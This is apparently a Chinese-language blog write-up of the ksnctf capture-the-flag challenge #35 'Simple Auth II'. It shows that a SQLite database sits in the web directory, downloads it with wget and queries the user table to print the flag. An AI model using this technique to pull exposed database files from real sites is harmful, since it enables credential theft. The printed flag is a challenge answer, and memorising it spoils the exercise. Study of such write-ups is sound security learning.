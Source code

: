 ```yaml
---
title: 'ksnctf #35 Simple Auth II'
metaAlignment: center
coverMeta: out
thumbnailImagePosition: left
date: 2017-03-23 12:53:39
categories:
	- Writeups
	- ksnctf
thumbnailImage: ksnctf.png
keywords:
    - ksnctf
    - Simple Auth II
tags:
    - Writeups
---
```

初學SQL必犯的安全錯誤 {% raw %}Σ(*ﾟдﾟﾉ)ﾉ{% endraw %}
<!-- more -->

看一下原始碼馬上可以看到使用SQLite來儲存資料，而且是直接放在網頁目錄下。

{% codeblock lang:php %}
$db = new PDO('sqlite:database.db');
{% endcodeblock %}

所以可以直接下載database.db在本機的sqlite執行搜尋。

{% codeblock %}
$ wget http://ctfq.sweetduet.info:10080/~q35/database.db
$ sqlite3 database.db

sqlite> SELECT * FROM user;
root|FLAG_iySDmApNegJvwmxN
{% endcodeblock %}
